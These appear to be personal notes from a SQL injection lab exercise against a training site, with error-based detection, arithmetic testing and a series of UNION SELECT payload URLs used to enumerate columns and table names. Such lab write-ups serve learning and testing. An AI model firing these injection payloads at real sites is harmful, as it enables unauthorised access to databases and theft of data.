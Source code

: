 
Analysis of SQLi lab:-  (http://sqli.naham.sec:8081/)


![[Screenshot From 2025-03-04 13-11-55 1.png]]

click on read more on first article and see it has an id..
![[Screenshot From 2025-03-04 13-13-25.png]]

input  ( ' )  to test sqli :-  
![[Screenshot From 2025-03-04 13-14-24.png]]
since the error pop up, its " error based sqli " present here.



==test other payloads and see result on the vulnerable endpoint:-==

for payload  "  2-1 "    (both in web and burp)
![[Screenshot From 2025-03-04 13-17-25.png]]
![[Screenshot From 2025-03-04 13-19-22.png]]
we get the article with id=1,  i.e we were able to execute the subtraction command in sql DB of the application and get the result.


that kind of tells us, hey, whatever, I give it to
this application,   its evaluating it for me and giving it back as it's a query, not taking the value,
but it's actually rendering the math expression to minus one and then giving us the value for that article.
And of course, we already knew based on the MySQL error, that there is maybe a SQL injection present here.


Now, ==Lets enumerate number of columns present here :-==
http://sqli.naham.sec:8081/article?id=2%20union%20select%201,2;--         (2 union select 1,2;--)
http://sqli.naham.sec:8081/article?id=2%20union%20select%201,2,3;--      (2 union select 1,2,3;--)



http://sqli.naham.sec:8081/article?id=2%20union%20select%201,2,3,4;--  (2 union select 1,2,3,4;--) this return actual article ,i.e the DB has 4 columns



http://sqli.naham.sec:8081/article?id=-2%20union%20select%201,2,3,4;--  (-2 union select 1,2,3,4;--)
![[Screenshot From 2025-03-04 15-04-31.png]]
so using id= -2  we were able to create another article that didn't exist earlier 




http://sqli.naham.sec:8081/article?id=-2%20union%20select%201,2,3,4%20from%20article;--  ( -2 union select 1,2,3,4 from article;-- )
response - ![[Screenshot From 2025-03-04 15-26-12.png]]



http://sqli.naham.sec:8081/article?id=-2%20union%20select%201,2,3,4%20from%20id;--  ( -2 union select 1,2,3,4 from id;-- )
response -   Table 'nahamsec.id' doesn't exist
